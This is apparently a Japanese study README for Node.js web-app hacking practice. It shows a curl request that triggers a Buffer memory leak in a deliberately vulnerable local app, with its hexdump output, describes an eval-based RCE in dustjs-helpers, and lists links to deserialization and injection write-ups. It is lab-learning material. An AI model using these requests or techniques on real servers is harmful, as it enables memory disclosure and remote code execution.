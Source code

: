 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**

- [脆弱なアプリ](#%E8%84%86%E5%BC%B1%E3%81%AA%E3%82%A2%E3%83%97%E3%83%AA)
  - [Buffer](#buffer)
  - [dustjs-helper](#dustjs-helper)
- [サンプルアプリ](#%E3%82%B5%E3%83%B3%E3%83%97%E3%83%AB%E3%82%A2%E3%83%97%E3%83%AA)
  - [progate](#progate)
- [メモ](#%E3%83%A1%E3%83%A2)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->
# 脆弱なアプリ
## Buffer
https://www.smrrd.de/nodejs-hacking-challenge-writeup.html   
の脆弱なアプリ。   
`./routes/index.js`の以下の部分が脆弱。`new Buffer("admin password")`の部分に`new Buffer(100)`となるようにJSONリクエストの内容を変更すれば、メモリが100バイト分返ってくる。   
以下は正常な場合の文字列を送信した挙動。   
![image](https://user-images.githubusercontent.com/56021519/101337517-1bb9c300-38bf-11eb-82ac-88e99a69edca.png)   
以下は文字列ではなく数値を送信した挙動。   
![image](https://user-images.githubusercontent.com/56021519/101337601-37bd6480-38bf-11eb-93f4-58d5fdcd7b23.png)   
curlでこれを何回か繰り返せばsessionの署名に使う暗号化キーが得られるらしいが、自分でやったときは何回やっても得られなかった…NodeJSのバージョンを落とさないとダメなのか？？   
```txt
root@kali:~/Documents/AWAE/nodejs# curl http://localhost:3000/login -X POST -H "Content-Type: application/json" --data "{\"password\": 100}" | hexdump -C
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   662  100   645  100    17   125k   3400 --:--:-- --:--:-- --:--:--  129k
00000000  7b 22 73 74 61 74 75 73  22 3a 22 65 72 72 6f 72  |{"status":"error|
00000010  22 2c 22 65 72 72 6f 72  22 3a 22 70 61 73 73 77  |","error":"passw|
00000020  6f 72 64 20 77 72 6f 6e  67 3a 20 5c 75 30 30 30  |ord wrong: \u000|
00000030  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
00000040  30 30 30 5c 75 30 30 30  30 5c 75 30 30 30 30 5c  |000\u0000\u0000\|
00000050  75 30 30 30 30 5c 75 30  30 30 30 5c 75 30 30 30  |u0000\u0000\u000|
00000060  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
00000070  30 30 30 5c 75 30 30 30  30 5c 75 30 30 30 30 5c  |000\u0000\u0000\|
00000080  75 30 30 30 30 5c 75 30  30 30 30 5c 75 30 30 30  |u0000\u0000\u000|
00000090  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
000000a0  30 30 30 5c 75 30 30 30  30 5c 75 30 30 30 30 5c  |000\u0000\u0000\|
000000b0  75 30 30 30 30 5c 75 30  30 30 30 5c 75 30 30 30  |u0000\u0000\u000|
000000c0  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
000000d0  30 30 30 5c 75 30 30 30  30 5c 75 30 30 30 30 5c  |000\u0000\u0000\|
000000e0  75 30 30 30 30 5c 75 30  30 30 30 5c 75 30 30 30  |u0000\u0000\u000|
000000f0  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
00000100  30 30 30 5c 75 30 30 30  30 5c 75 30 30 30 30 5c  |000\u0000\u0000\|
00000110  75 30 30 30 30 5c 75 30  30 30 30 5c 75 30 30 30  |u0000\u0000\u000|
00000120  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
00000130  30 30 30 5c 75 30 30 30  30 5c 75 30 30 30 30 5c  |000\u0000\u0000\|
00000140  75 30 30 30 30 5c 75 30  30 30 30 5c 75 30 30 30  |u0000\u0000\u000|
00000150  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
00000160  30 30 30 5c 75 30 30 30  30 5c 75 30 30 30 30 5c  |000\u0000\u0000\|
00000170  75 30 30 30 30 5c 75 30  30 30 30 5c 75 30 30 30  |u0000\u0000\u000|
00000180  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
00000190  30 30 30 5c 75 30 30 30  30 5c 75 30 30 30 30 5c  |000\u0000\u0000\|
000001a0  75 30 30 30 30 5c 75 30  30 30 30 5c 75 30 30 30  |u0000\u0000\u000|
000001b0  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
000001c0  30 30 30 5c 75 30 30 30  30 5c 75 30 30 30 30 5c  |000\u0000\u0000\|
000001d0  75 30 30 30 30 5c 75 30  30 30 30 5c 75 30 30 30  |u0000\u0000\u000|
000001e0  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
000001f0  30 30 30 5c 75 30 30 30  30 5c 75 30 30 30 30 5c  |000\u0000\u0000\|
00000200  75 30 30 30 30 5c 75 30  30 30 30 5c 75 30 30 30  |u0000\u0000\u000|
00000210  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
00000220  30 30 30 5c 75 30 30 30  30 5c 75 30 30 30 30 5c  |000\u0000\u0000\|
00000230  75 30 30 30 30 5c 75 30  30 30 30 5c 75 30 30 30  |u0000\u0000\u000|
00000240  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
00000250  30 30 30 5c 75 30 30 30  30 5c 75 30 30 30 30 5c  |000\u0000\u0000\|
00000260  75 30 30 30 30 5c 75 30  30 30 30 5c 75 30 30 30  |u0000\u0000\u000|
00000270  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
00000280  30 30 30 22 7d                                    |000"}|
00000285
```
## dustjs-helper
if helperのevalと不十分な入力検証でRCEできる脆弱なNode.jsモジュール。   
https://github.com/linkedin/dustjs   
https://github.com/linkedin/dustjs-helpers/blob/03cd65f51a/README.md   
よくわからんけどどうやら修正されてないっぽい。   
# サンプルアプリ
## progate
プロゲートの無料のアプリ。
# フォルダ構成
```txt
.
├── app.js				// expressサーバーの設定
├── bin
│   └── www				// サーバーの起動
├── package.json
├── public				// 静的ファイル置き場
│   ├── images
│   ├── javascripts
│   └── stylesheets
│       └── style.css
├── routes				// サーバー側のコントローラ
│   ├── index.js
│   └── users.js
└── views					// サーバー側で画面を作成する際のテンプレート
    ├── error.jade
    ├── index.jade
    └── layout.jade
```
# メモ
https://www.smrrd.de/nodejs-hacking-challenge.html   
にNodeJSのハッキングチャレンジ記事がある   
https://medium.com/bugbountywriteup/nodejs-ssrf-by-response-splitting-asis-ctf-finals-2018-proxy-proxy-question-walkthrough-9a2424923501   
NodeJSのSSRFのWriteup？的なものがある   
https://medium.com/egghunter/node-1-vulnhub-walkthrough-5635aa56cc74   
NodeJSのapp.jsはデータベースのデータをコマンドとして実行しようとするので、データベースに任意のコマンドを書き込む。シェルをゲット後の話。   
https://mars-cheng.github.io/blog/2018/Vulnhub-Temple-of-Doom-1-Write-up/   
node-serialize remote code execution(CVE-2017-5941)らしい。よさそう。   
https://www.hackingarticles.in/moonraker1-vulnhub-walkthrough/   
Node.js deserialization exploit for RCE   
https://cybervaultsec.com/ceh/hackthebox-celestial/   
HackTheBoxのCelestical.NodeJSのデシリアライズっぽい。   
https://www.doyler.net/security-not-included/nodejs-code-injection   
NodeJSのコマンドインジェクションのWriteup   
